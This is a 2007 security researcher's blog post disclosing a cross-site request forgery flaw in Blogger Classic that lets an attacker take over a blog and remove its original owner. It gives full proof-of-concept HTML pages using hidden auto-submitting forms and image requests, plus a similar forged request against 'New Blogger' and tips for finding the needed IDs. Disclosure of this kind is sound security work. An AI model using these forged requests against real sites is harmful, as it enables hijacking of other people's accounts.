 ```yaml
---
title: CSRF-ing Blogger Classic
author: adrian-pastor
date: Fri, 19 Jan 2007 10:02:10 GMT
template: post.jade
---
```


In [Blogger](http://www.blogger.com) Classic, admin users who originally created a blog can be removed by other admin users. This behavior allows for a complete and non-reversible hijack of a Blogger Classic blog through  CSRF/XSRF/session riding/one-click attacks.

The process is a two shots attacks, meaning that the victim admin user needs to click on two different links while being authenticated. Due to the nature of blogging, in which admins go through the comments posted by visitors, this attack is very feasible. This is probably even more true for blogs that are moderated, since blog admins review posts carefully including URLs embedded in posts before publishing the posts, thus clicking on the evil link **while authenticated**.

What each evil URL does:

1. Send an invitation link to the attacker on behalf of the admin user in order to become a blog member (only permission to create new posts is given to the attacker at this point)
2. Change the attacker's permissions from guest to admin.

After this, the attacker can login to the target blog as an admin user and remove the original admin user who created the blog (remember that in "Blogger Classic" admins users can remove the original admin user of the blog). The only rule is that there must exist **at least one admin user**. At this point, the victim admin user can never take control over the  blog even though he/she was the original founder.

---

### blogger-classic-attack-step-1.html

```html
<HTML><BODY>
<H1>You are being CSRFed in the background while viewing this HTML page</H1>
<iframe src="./blogger-classic-add-user.html" height="0" width="0" frameborder="0">
</BODY></HTML>
```

---

### blogger-classic-add-user.html

```html
<HTML><BODY>
<!--
Blogger Classic "invite new team member" request
POST http://www.blogger.com/send-invite.do

blogID=12345678&email0=attacker@domain.com&email1=&email2=&inviteMessage=

Note: 'blogID' can be found by visitors on the main page of a blog within several URLs in the source code of the page. Change 'email0' with attacker's email.
-->
<form method="POST" id="evil" name="evil" action="http://www.blogger.com/send-invite.do">
<input type="hidden" name="blogID" value="12345678">
<input type="hidden" name="email0" value="attacker@domain.com">
<input type="hidden" name="email1" value="">
<input type="hidden" name="email2" value="">
<input type="hidden" name="inviteMessage" value="">
</form>
<script>document.evil.submit()</script>
</BODY></HTML>
```

---

### blogger-classic-attack-step-2.html

```html
<html><body>
<!--
This request is a GET, and makes an existing guest member (the attacker in this case) an admin.

i.e.:
http://www.blogger.com/team-member-modify.do?blogID=12345678&memberID=55555555&isAdmin=1

Note: assign to 'memberID' the value of the 'userID' of the attacker. 'userID' can be found after logging into Blogger Classic (rather than "New Blogger") using the attacker's Blogger Classic account and accessing "edit profile"  (variable in HTML form named 'userID').
This value is also available in the address bar's URL after acessing "view profile" (i.e.: http://www.blogger.com/profile/55555555) .
'blogID' is the same value as the one used in the first HTML attack page ("blogger-classic-add-user.html").
-->
<script>
	var_blogID=12345678; // change to ID of target Blogger Classic blog
	var_memberID=55555555; // change to attacker's member ID

	new Image().src="http://www.blogger.com/team-member-modify.do?blogID="+var_blogID+"&memberID="+var_memberID+"&isAdmin=1";
</script>
<H1>You are being CSRFed in the background while viewing this HTML page</H2>
</body></html>
```

---

After visiting a URL that contains the second HTML file, the attacker can now login to the target blog as an admin user and remove the original owner of the blog, thus completely hijacking the blog. The attack could be even more automated, but the attack walkthrough discussed here is enough to take over a "Classic Blogger" blog.

The first attack HTML file _attack-step-1.html_ calls _blogger-classic-add-user.html_ through an iframe so that the forged POST request is sent **in the background** while the victim admin user is viewing the HTML page. The second second attack HTML file _blogger-classic-attack-step-1.html_ uses an image object that sends the forged GET request **in the background** without needing to use an iframe.

By the way, in "New Blogger" there are also some interesting requests that are not being tokenized. Similar to Blogger Classic, changing profile details does require a token (i.e.: 'securityToken' parameter), while inviting a new user, for instance, does not. I.e.:

```http
POST http://www2.blogger.com/add-authors.do

blogID=1234567890123456789&authorsList=attacker%40domain.com+&submit=true
```

Note: I suspect that it is possible to tell when a blog is "Classic Blogger" or "New Blogger" by looking up the 'blogID' value from the source code of the main blog page and checking if the numeric value is 8 digits long, rather than 19 digits long which is used by "New Blogger"

Solution: admin users are recommended to switch to new blogger, and to use a different web browser to visit links while logged on to Blogger.

Greetings to pdp, David Kierznowski , Amir Azam (thanks for testing the attack). This CSRF experiment is dedicated to my babe peluchita!!!
